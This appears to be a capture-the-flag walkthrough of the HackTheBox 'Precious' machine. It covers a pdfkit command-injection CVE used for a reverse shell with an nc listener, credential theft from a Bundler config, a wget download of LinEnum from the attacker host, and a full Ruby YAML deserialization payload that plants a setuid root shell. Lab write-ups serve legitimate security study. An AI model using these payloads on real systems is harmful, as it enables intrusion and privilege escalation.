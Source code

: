 ```yaml
---
title: Precious
date: 2025-05-24
---
```


### Task 1

Nginx is running with what additional software designed to serve web applications?

Navigating to the target IP address we are being redirected to the domain ``precious.htb``. We then add it to the hosts file ``vim /etc/hosts`` and reload the page.

![alt text](image-pr-14.png)

After reloading the page, we see that the website's usage is converting web page to pdf.

![alt text](image-pr-15.png)

We then run ``whatweb <target_url> -v`` and find that additional to nginx web server, the software running is Phusion Passenger.

![alt text](image-pr-16.png)

### Task 2 

Which HTTP response header reveals the underlying scripting Language of the web application?

From the same response of ``whatweb``, we see the HTTP response header that specifies the scripting language.

![alt text](image-pr-17.png)

### Task 3 

Which Ruby library are the PDF documents generated with?

Providing a public url to be converted, we can the error Cannot load remote URL. 

![alt text](image-pr-18.png)

Instead, we start a Python HTTP server by running ``python3 -m http.server 8080``. Then we can provide the IP address of the host machine to be converted as ``http://<host_ip>:8080`` and get a pdf file back.

Running ``exiftool`` against the pdf file we get the information we need about the Ruby library.

![alt text](image-pr-19.png)

<!--truncate--> 

### Task 4

Which 2022 CVE applies to that specific version of pdfkit?

By a quick google search we can find the CVE ID 2022-25765 of the Command Injection vulnerability.

### Task 5

Which directory located in the running user's home directory is used by Bundler to store configuration files?

Using a PoC for the CVE that can be found at [text](https://github.com/shamo0/PDFkit-CMD-Injection), we start a python server again with the same command ``python3 -m http.server 8080`` and listener on port 4444 ``nc -lvnp 4444``. Then we send the curl exploit and we are connected on the target machine. 

![alt text](image-pr-20.png)

Moving to rubycd home directory and running ``ls -a`` to list the directories, including the hidden ones, we see the .bundle file that contains the configuration files.

### Task 6

Sumbit the flag located in the henry user's home directory.

Inside the .bundle directory we open the config file and get the credentials for the user henry.

![alt text](image-pr-22.png)

Then, we switch to the henry user by running ``su - henry`` and provide the password from before. Running ``whoami`` shows us that we are now user henry.

After navigating to the henry user's home directory and running ``cat user.txt`` we get the user flag.

### Task 7

Which command can henry run with sudo, without providing a password?

We are now gonna run the ``LinEnum.sh`` script to enumerate the host. For that purpose, we first get the script on our host machine and then open a Python server on port 8888 on the directory the script is at. Then, on the target machine we run ``wget http://<host_ip>:8888/LinEnum.sh``. Looking through the result we see that the user henry can sudo the command ``/usr/bin/ruby /opt/update_dependencies.rb``.

![alt text](image-pr-23.png)

### Task 8 

Which is the name of the file that allows for user-controlled input to the update_dependencies.rb script?

Opening the file by `` cat /opt/update_dependencies.rb`` we see that the file used is ``dependencies.yml``.

![alt text](image-pr-24.png)

### Task 9

Submit the flag located in root's home directory.

First, we inspect the file ``update_dependencies.rb`` and see that there is an unsafe load of the file that allows for user-controlled input.

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

The ``YAML.load()`` deserializes YAML into Ruby objects in an insecure way that can lead to arbitary code execution. Based on this gist [text](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) we craft the following payload and we place it in the henry's home directory.

```

cat << 'EOF' > dependencies.yml
--- 
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
        debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
            git_set: cp /bin/bash /tmp/dani; chmod +6777 /tmp/dani
          method_id: :resolve
EOF
``` 

We run the script as root ``sudo /usr/bin/ruby /opt/update_dependencies.rb`` that is possible without providing password and then use the command ``/tmp/dani -p`` which launches a new shell. The ``-p`` flag tells bash to preserve the effective UID, which is 0 meaning root thanks to the setuid bit of the chmod command. Finally navigating to the ``/root`` directory and ``cat root.txt`` gives us the root flag.
